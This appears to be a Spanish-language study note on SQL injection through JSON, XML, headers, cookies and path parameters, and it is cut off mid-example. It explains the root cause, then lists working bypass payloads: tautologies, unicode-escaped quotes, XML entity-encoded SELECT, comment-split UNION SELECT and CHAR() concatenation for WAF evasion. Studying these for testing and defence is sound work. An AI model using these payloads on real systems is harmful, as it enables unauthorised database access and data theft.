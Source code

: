 # SQL injection en diferentes contextos (JSON, XML, headers, APIs)

Las inyecciones SQL no se limitan al query string. Cualquier entrada controlable por el usuario que termine formando una consulta SQL puede ser vector de inyección: JSON, XML, cabeceras, cookies, segmentos de URL, multipart, GraphQL, etc. Diferentes formatos ofrecen formas alternativas de ocultar o evadir filtros, y a menudo requieren técnicas de explotación y evasión específicas.

[Obfuscating](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding)

---

## 1) Idea clave

La vulnerabilidad aparece cuando la aplicación **construye o interpola** una consulta SQL usando datos controlados externamente sin usar **consultas parametrizadas**  o validación estricta. El formato del dato (JSON, XML, header) sólo cambia la forma en que el payload debe llegar y cómo la app lo decodifica antes de pasarlo al motor SQL.

---

## 2) Contextos comunes y ejemplos

### A — Query string / form data

* GET: `/product?id=123` → `SELECT * FROM products WHERE id = '123'`.
* POST form: `product=123` similar.

### B — JSON

* Petición JSON típica:

  ```json
  { "productId": 123, "filter": "recent" }
  ```
* Si el backend hace algo peligroso como: `query = "SELECT * FROM products WHERE id = '" + data.productId + "'";`, aceptará payloads JSON que incluyan comillas o estructuras.
* **Ejemplo de inyección JSON**: si `productId` no se valida: `{ "productId": "1' OR '1'='1" }` → `... WHERE id = '1' OR '1'='1'`.

### C — XML

* XML puede usar **escape sequences** o **entidades**:

  ```xml
  <stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
  </stockCheck>
  ```

  El parser XML decodifica `&#x53;` a `S`, resultando en `SELECT` en el SQL final.
* También se puede abusar de **CDATA** y XXE para OOB exfiltration (cuando el XML es parseado y convertido a SQL después).

### D — Headers, Cookies y Path params

* `User-Agent`, `Referer`, `X-Forwarded-For`, o cookies pueden ser usados para inyección si son concatenados en SQL.
* Ejemplo: app registra `INSERT INTO access_log (ua) VALUES ('<User-Agent>')` → inyectá en `User-Agent`.
* Segmentos RESTful: `/user/123/orders` → si la app hace `WHERE user_id = '123'` usando el segmento, ese valor también puede explotar.

### E — Multipart / file metadata

* Formularios multipart incluyen campos de texto que pueden inyectarse. Metadatos de filenames también.

---

## 3) Por qué los formatos ayudan a evadir filtros (WAF, regex simples)

* Muchos filtros buscan palabras clave comunes (`SELECT`, `UNION`, `DROP`) en la entrada cruda. Si el formato (ej. JSON/XML) **decodifica** entidades o escape sequences antes de ejecutar SQL, un payload codificado puede pasar el filtro y luego ser interpretado por el servidor.
* Ejemplos de evasión:

  * **Escapes HTML / XML**: `&#x53;ELECT` → `SELECT` tras parseo XML.
  * **URL encoding / percent encoding** en parámetros.
  * **Unicode homoglyphs / UTF-8 overlong** (poco fiable y detectable).
  * **Insertar comentarios** dentro de palabras clave: `SE/**/LECT`.
  * **Separar la palabra clave**: `SE` + `LECT` (si la app concatena input de varias fuentes).
  * **Uso de concatenación del motor**: `CHAR(83)+'ELECT'` (en SQL Server) o `CHR(83)||'ELECT'` (Oracle) para producir `SELECT` internamente.

---

## 4) Ejemplos prácticos de bypass

> Ajustar comillas y encoding según el contexto (JSON string, XML text, header).

* **JSON (body)**

  ```json
  { "id": "1' OR '1'='1" }
  ```

* **JSON con encoding** (si parser decodes):

  ```json
  { "q": "1\u0027 OR \u00271\u0027=\u00271" }
  ```

  (`\u0027` = `'`) puede evadir filtros que no normalizan unicode.

* **XML escape example**

  ```xml
  <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
  ```

  (XML decode → `SELECT`)

* **Split keyword with comments**

  ```sql
  ' UN/**/ION SEL/**/ECT NULL,NULL--
  ```

* **Hex / CHAR functions** (MSSQL)

  ```sql
  ' UNION SELECT CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84) --
  ```

* **Concatenate pieces from different JSON fields**
  Si un backend hace `q = body.a + body.b`, envía `{"a":"SE
